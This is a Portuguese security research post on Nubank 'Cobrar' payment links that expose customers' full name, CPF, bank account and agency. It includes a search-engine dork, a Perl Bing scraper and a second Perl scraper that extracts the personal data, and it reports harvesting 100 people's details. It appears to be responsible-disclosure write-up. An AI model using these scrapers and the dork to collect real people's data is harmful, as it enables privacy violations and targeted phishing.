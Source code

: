 ```yaml
---
layout: content
title: 'Um pequeno caso de scraping de dados pessoais expostos na web'
description: 'Durante a realização de testes em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Embora essa funcionalidade apresente utilidade prática, sua implementação pode estar suscetível a diversos cenários que demandam análise detalhada. Com o intuito de avaliar possíveis implicações, foram desenvolvidas provas de conceito e compartilhadas com a empresa para revisão do design da funcionalidade. A partir dessa análise, constatou-se a possibilidade de mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabela de conteúdo:
- [Resumo](#sumario)
- [Descrição](#descrição)
- [Prova de conceito](#prova-de-conceito)
- [Impacto](#impacto)
- [Conclusão](#conclusão)
- [Referências](#referencias)

### Sumário

Durante a realização de testes em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Embora essa funcionalidade apresente utilidade prática, sua implementação pode estar suscetível a diversos cenários que demandam análise detalhada. Com o intuito de avaliar possíveis implicações, foram desenvolvidas provas de conceito e compartilhadas com a empresa para revisão do design da funcionalidade. A partir dessa análise, constatou-se a possibilidade de mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.


```text
DISCLAIMER

A empresa responsável foi informada sobre todos os detalhes dessa pesquisa no menor tempo possível e respondeu de maneira ética e transparente, demonstrando atenção e comprometimento com a segurança da funcionalidade. Durante os testes realizados, não houve invasão ou violação de sistemas. Além disso, a empresa implementou algumas medidas corretivas para reduzir potenciais riscos associados ao problema relatado. Recomendações adicionais foram fornecidas para mitigar a vulnerabilidade, porém a empresa optou por não implementá-las integralmente.
```

---

### Descrição

Dentro do aplicativo do Nubank, existe um recurso denominado "Cobrar". Seu funcionamente consiste em: 1) preencher um valor de sua escolha (se desejar) e 2) clique em confirmar 3) após isso, um QR Code é gerado, e você tem a opção de compartilhá-lo ou enviar a cobrança por meio de outro aplicativo, como o WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)


O conteúdo do QR Code é o mesmo link que pode ser compartilhado por aplicativos de mensangens. Quando o link é aberto no navegador, é obtido o seguinte resultado:

![](/images/publications/nubank-scraping/personal-infos.png)

São expostos, sem qualquer tipo de controle, alguns dados do usuário que gerou o link como: o nome completo, CPF, número da conta bancária e agência. O único requisito para obter essas informações sensíveis[1] é possuir essa URL.

A URL em questão é gerada exclusivamente pelo cliente em seu aplicativo, e também cabe ao cliente definir como e com quem compartilhar cada URL gerada.

Porém, essas URLs são indexadas por motores de busca, sendo possível realizar a utilizar de dorks[2] para identificar mais URLs relacionadas a esse serviço. 

Dork para restringir a busca ao site principal do Nubank, onde as urls contenham o padrão "/pagar/" e os retornos envolvendo o blog sejam excluídos:

```text
site:nubank.com.br inurl:/pagar/ -blog
````

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Além disso, observamos que alguns usuários estavam publicando essas URLs em outros canais, como o Twitter. Um uso comum da funcionalidade seria para receber doações.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prova de conceito

Para demonstrar o impacto do abuso dessa funcionalidade, uma prova de conceito foi criada. A primeira parte dessa PoC consiste na construção de um código capaz de usar um motor de busca para coletar o maior número possível de URLs. Foi desenvolvido, então, um scraper[3] utilizando o Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Com esse código, foram coletadas 100 URLs válidas - esse valor foi limitado em 100 pois o intuito era apenas uma demonstração, mas poderia ser superior:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Após a coleta das URLs em um arquivo .txt, foi desenvolvido outro scraper que para extrair os dados da página do Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

E então o resultado obtido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nome completo, número da conta e agência de 100 pessoas, em apenas alguns minutos e com poucas linhas de código.

---

### Impacto

A possibilidade de um atacante abusar dessa funcionalidade disponível nos sistemas da Nubank é alta devida a sua facildade de exploração. Podendo então expor  diversos usuários, vazando informações sensíveis como ilustrado anteriormente. Além disso, um atacante que tenha essas informações em mãos pode usá-las para desenvolver uma abordagem de engenharia social muito bem direcionada.

---

### Conclusão

Através dessa análise, é possível afirmar que uma agente malicioso poderia implementar diversos scrapers para mapear as URLs de cobrança do Nubank e, posteriormente, coletar as informações pessoais presentes nelas. Este artigo apresentou uma PoC como uma dessas implementações, utilizando um motor de busca, mas ainda há espaço para outros canais, como redes sociais (Twitter, Facebook e outras). Esses canais poderiam ser usados para levar essas pessoas a cenários de exposição ou risco, como se tornarem vítimas de spear phishing/engenharia social.

---

### Referências

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)